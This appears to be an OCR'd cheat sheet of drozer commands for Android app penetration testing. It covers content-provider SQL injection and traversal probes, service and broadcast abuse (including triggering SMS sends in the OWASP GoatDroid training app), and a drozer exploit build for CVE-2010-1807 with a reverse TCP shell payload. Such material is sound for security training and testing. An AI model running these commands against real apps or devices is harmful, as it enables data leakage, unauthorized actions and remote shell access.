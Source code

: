 ```bash
run scanner.provider.injection -a $package_app
run scanner.provider.traversal -a $package_app

# Database-backed Content Providers (Data Leakage)
run scanner.provider.finduris -a $package_app
# query accessible content URIs
run app.provider.query content://$content

# Database-backed Content Providers (SQLi)
run app.provider.query content://$accessible_content
--projection "'"
run app.provider.query content://$accessible_content
--selection "'"

'''
Services
'''
# list service
run app.service.info -a $package_app
# interact with service
# app.service.send 
# app.service.start  # Start Service                                       
# app.service.stop   # Stop Service
run app.service.send $package_app $ $package_app.$service --msg 2354 9234 1 --extra string $package_app.PIN 1337 --bundle-as-obj

'''
Broadcast Receivers
'''
# broadcast receivers
run app.broadcast.info # Detects all broadcast receivers on device
# check for app
run app.broadcast.info -a $package_app
# interactions
# app.broadcast.info          Get information about broadcast receivers           
# app.broadcast.send          Send broadcast using an intent                      
# app.broadcast.sniff         Register a broadcast receiver that can sniff particular intents
# i.e. : send SMS on app
run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats.broadcastreceivers SendSMSNowReceiver --extra string phoneNumber 123456789 --extra string message "Hello mate!"

'''
Debug
'''
# find debuggable apps
run app.package.debuggable

'''
Exploits / Shellcode
'''
# on host terminal
drozer exploit list
drozer shellcode list

# example : CVE-2010-1807
drozer exploit build exploit.remote.webkit.nanparse –-payload weasel.reverse_tcp.armeabi  
--server 10.0.2.2:31415 --push-server 127.0.0.1:31415 --resource /home.html
```
